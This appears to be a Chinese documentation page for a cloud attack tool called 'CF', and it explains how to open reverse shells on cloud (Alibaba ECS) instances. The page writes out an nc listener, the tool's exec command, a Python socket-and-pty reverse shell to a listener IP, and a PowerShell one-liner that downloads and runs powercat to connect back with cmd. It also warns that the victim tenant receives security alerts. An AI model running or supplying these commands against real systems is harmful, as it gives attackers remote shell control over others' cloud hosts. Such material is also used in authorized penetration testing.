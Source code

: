 ```yaml
---
title: 反弹 Shell
---
```


## 反弹 Shell

首先在自己的主机上开启监听

```bash
nc -lvvp 4444
```

接着在 CF 中执行反弹 Shell 命令

`--lhost` 参数配置为自己监听主机的 IP，`--lport` 参数配置为自己的监听端口，`-i` 设置要反弹 Shell 的实例 ID（如果不指定则默认是全部实例）

```bash
cf ecs exec --lhost 123.123.123.123 --lport 4444 -i i-abcdefghijklmn
```

在 CF 中使用的 Linux 反弹 Shell 如下

```bash
export RHOST="123.123.123.123";export RPORT=4444;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```

   <img width="800" src="/img/1656605535.png">

   <img width="650" src="/img/1656605596.png">

在 CF 中使用的 Windows 反弹 Shell 如下

```bash
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://ghproxy.com/raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 123.123.123.123 -p 4444 -e cmd
```

   <img width="850" src="/img/1656605944.png">

   <img width="650" src="/img/1656605897.png">

> 由于 CF 等待命令执行结果的默认时间是 60 秒，所以在超过 60 秒后，CF 会提示命令执行超时，从而退出程序。
>
> 因为反弹 Shell 需要命令保持一直处于执行状态，所以在上面的图片里可以看到提示命令执行超时。

::: warning 注意

在阿里云下反弹 Shell ，目标租户将收到阿里云的云盾告警消息。

:::

<Vssue />

<script>
export default {
    mounted () {
      this.$page.lastUpdated = "2022年6月30日"
    }
  }
</script>